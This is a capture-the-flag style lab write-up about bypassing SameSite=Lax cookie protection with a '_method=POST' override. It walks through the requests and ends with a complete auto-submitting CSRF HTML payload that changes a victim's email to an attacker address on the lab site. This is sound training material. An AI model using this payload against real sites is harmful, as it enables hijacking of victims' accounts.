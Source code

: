 # Lab: SameSite Lax bypass via method override

> Lab Objective: perform a CSRF attack that changes the victim's email address.

- Login using provided credentials `wiener:peter`, using Google Chrome as a browser.

- Inspect the Login's Request and Response.
  ![1st Image](./attachments/1.png)

- You'll notice that the website doesn't enforce any SameSite restrictions explicitly, therefore the Browser will enforce `SameSite=Lax` restriction, which includes the cookie in two cases:

  - The request is originated from same-site.
  - The request is generated from cross-site through top level navigation through a `GET` request only.

- Change your Email, then inspect the Request and Response.
  ![2nd Image](./attachments/2.png)

- Try to change the Request method from `POST` to `GET`, you'll notice that `GET` method is not allowed.
  ![3rd Image](./attachments/3.png)

- But when adding `_method=POST` as a url string parameter, the request is accepted.
  ![4th Image](./attachments/4.png)

- Therefore, in order to bypass this issue, I want to send a `GET` request and override the method to `POST` request.

- Accomplish this through the following payload:

```html
<html>
  <body>
    <form
      action="https://0a88002a0372a6bb8086179b00140053.web-security-academy.net/my-account/change-email"
      method="GET"
    >
      <input type="hidden" name="email" value="hacker@gmail.com" />
      <input type="hidden" name="_method" value="POST" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- The Lab is solved successfully.
  ![5th Image](./attachments/5.png)
